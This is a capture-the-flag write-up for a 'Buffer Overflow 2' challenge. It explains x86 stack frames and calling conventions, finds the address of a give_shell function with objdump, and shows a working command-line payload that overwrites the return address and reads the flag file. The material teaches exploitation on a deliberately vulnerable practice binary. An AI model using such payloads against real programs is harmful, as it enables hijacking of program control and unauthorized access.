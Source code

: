 # Buffer Overflow 2
## Background Knowledge
x86的[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
 * Calling function：
  1. push參數到stack上(reverse order)
  2. push RET位址(目前%eip)
  3. jump到function位址
 * Called function：
  1. push old frame pointer(%ebp)
  2. 把frame pointer(%ebp)設成目前stack指到的位置(%esp)
  3. push local變數
 * Returning function：
  1. reset prev stack frame：%esp = %ebp, %ebp = (%ebp)
  2. jump回RET位址：%eip = 4(%esp)
 ![image](buf_gen1.png)
 * x86是little-endian
## Solve
 * 使用gdb或objdump找到give_shell位址
```
$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```
 * 了解目前stack長相
  * 用objdump 看assembly code
```
$ objdump -d bufferoverflow2
...
<vuln>
push %ebp
...
pushl %0x8(%ebp) ; arument of strcpy
...
push %eax; argument of strcpy
call <strcpy@plt>
...
ret
...
<main>:
push %eax ; ret addr
call 80484e2 <vuln>
...
```
  * stack：
```
  <ret addr>
  <old %ebp>
  <strcpy arg>
  <strcpy arg>
  <buf ...
  16 bytes>
```
  * 取得flag
```
$ ./overflow2 $(python -c 'print "A"*16 + "A"*3*4 + "\xad\x84\x04\x08"')
$ ls
flag.txt    Makefile    overflow2   overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```
## Reference：
 * [駭客雜誌上的教學](http://phrack.org/issues/49/14.html#article)
